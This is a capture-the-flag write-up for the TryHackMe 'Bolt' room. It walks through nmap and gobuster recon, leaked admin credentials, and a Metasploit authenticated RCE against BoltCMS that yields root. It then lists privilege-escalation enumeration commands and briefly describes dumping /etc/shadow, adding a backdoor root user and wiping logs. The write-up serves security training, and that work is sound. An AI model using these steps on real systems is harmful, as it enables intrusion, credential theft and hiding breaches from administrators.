







# [Bolt](https://tryhackme.com/room/bolt) by [0x9747](https://tryhackme.com/p/0x9747)

```bash
IP = 10.10.143.4*
Difficulty: Easy
Machine OS: Linux
Learning Platform: tryhackme.com
```

**Note: IP address may vary.*

## **Reconnaissance**

### *Scoping and Preparation*

Connect to Tryhackme OpenVPN Server using:

* ``sudo openvpn {PATH_TO_OVPN_FILE}``

Run our recon tools such as `nmap` and `gobuster`.

I ran nmap twice to get the specific ports that are open so I can do OS and Version enumeration faster since I got the open ports needed.

1st Nmap command used: `sudo nmap -T4 -p- -oN [FILENAME] [IP]`

2nd Nmap command used: `sudo nmap -A -T4 -p[OPEN_PORTS_GOT_ON_1ST_NMAP_SCAN] -oN [FILENAME] [IP]`

Gobuster command used: `gobuster dir -u http://[IP] -w [WORDLIST] -o [FILENAME FOR OUTPUT] -t [NUMBER OF THREADS]`

## External Enumeration

### *Preliminary Enumeration via nmap*

#### Table 1.1: nmap Results Summary

PORT | STATUS | SERVICE | VERSION
:---: | :---: | :---: | :---:
22/tcp | open | SSH | *OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)*
80/tcp | open | HTTP | *Apache httpd 2.4.29 ((Ubuntu))*
8000/tcp | open | HTTP | *(PHP 7.2.32-1)*



Ubuntu Version: [Ubuntu Bionic](https://launchpad.net/ubuntu/+source/openssh/1:7.6p1-4ubuntu0.3)

### Web Enumeration

Browsing through the HTTP service at port 80 gives us the default Apache page.



Let's see what the web technologies that the web server use. In this case, I use the browser extension `wapplayzer`. [Link](https://www.wappalyzer.com/apps/)



Nothing new come up from checking the web technologies using wappalyzer. Let's see the HTTP service in port 8000.


Scrolling through the webpage, we see a post from `Jake` telling the password of the admin account.

Let's see the web technologies used in the HTTP server at port 8000.

Scrolling further, we can also see that `Jake` also shares the username of his admin account named `bolt`.




We can see that the HTTP server at port 8000 is running `BoltCMS`. We will look for the documentation about BoltCMS later since we have possible credentials for the CMS.


Searching `bolt cms login page` on google gives us the documentation for BoltCMS.



Submitting the credentials, we are now logged in as admin in the BoltCMS and also we can see the BoltCMS version. We can try if it has specific version vulnerability.


## Exploitation

### Web Server Exploitation

We now have valid login for the webpage and BoltCMS version. We can look if the running version of BoltCMS has vulnerabilities. We can use the tool `searchsploit`.

Command used: `searchsploit bolt`


We can see that there is a authenticated RCE (Remote Code Execution) in BoltCMS v.3.7.0.. We can further examine it using `searchsploit` by using the `-x` flag and copying the `path` shown on the previous `searchsploit` output.

Command used: `searchsploit -x php/webapps/48296.py`

The command above will show the exploit code for the specified path given on searchsploit.

Basing on the tryhackme question, it suggests that we use the `metasploit module` for our exploit.


We will use the `exploit/unix/webapp/bolt_authenticated_rce` module for our exploit. To quickly select this module, type `use 0`

We just need to set the `LHOST`, `RHOST`, `USERNAME` and `PASSWORD` to successfully run the exploit module. The commands used are shown below. (*Note: Press ENTER key for every command*) Lastly type, `run` or if you want to be a cool kid, type `exploit`.

```bash
set LHOST [YOUR_THM_IP]
set RHOST [VICTIM_MACHINE_IP]
set USERNAME bolt
set PASSWORD boltadmin123
run
```

### Table 1.2: Credentials

Username | Password
:---: | :---:
bolt | boltadmin123

## Post-Exploitation

### *Internal Enumeration*

#### Table 1.3: Checklist for Linux Internal Enumeration

COMMAND | DESCRIPTION
:---: | :---:
``ss -tlnp``  | lists all sockets (``-t = tcp``) (``-l = listening``) (``-n = numeric``) (``-p = processes``)
``netstat -tulnp`` | &nbsp; |  &nbsp;
``sudo -l`` | lists all binaries/files/programs the current user has ``sudo`` permissions. (might require password)
``find / -type f -user root -perm -u+s 2>/dev/null`` | finds files in ``/`` directory that has [SUID](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) bit set. If any, consult [GTFOBins](https://gtfobins.github.io/).
``uname -a`` | prints system information (-a = all)
``whoami && id`` | prints `effective userid` (EUID) and prints `real` and `effective userid` and `groupids` (GID).
``cat /etc/crontab`` | checks for cron jobs.

*Notes: For more information about the commands look [here](https://explainshell.com)*

*Tip: When nothing else makes sense, try to use [LinPEAS](https://github.com/carlospolop/PEASS-ng) ([winPEAS](https://github.com/carlospolop/PEASS-ng) for windows machines.).*

We are now logged in as `root`



We don't have a need to escalate our privileges since we are now root.

To find the flag, use the `find` binary:

Command used: `find / -type f -name 'flag.* 2>/dev/null'`



### Data Exfiltration

We also managed to get the confidential info for the machine and dumped it into a file named [Confidential.md](./confidential.md) (*includes /etc/shadow contents and root flag*)

### STATUS: ROOTED

The next two steps are not necessary for completion of the machine but it completes the 5 Phases of Penetration Testing.

## Persistence

Copied the /etc/shadow file for user identification and their passwords.

Added another root user for easy access.

## Clearing Tracks

Removed all logs and footprints to to prevent risk of exposure of breach to security administrator.

## Status: Finished

Feel free to reach out and if there is something wrong about the above post. Feedbacks are also appreciated! :D

## Donation Box

Not required but appreciated! :D

[](https://ko-fi.com/hambyhaxx)

[](https://www.buymeacoffee.com/hambyhaxx)

### Socials

* [Twitter](https://twitter.com/hambyhaxx)

* [Medium](https://hambyhaxx.medium.com)

<-- [Go Back](https://hambyhacks.github.io)
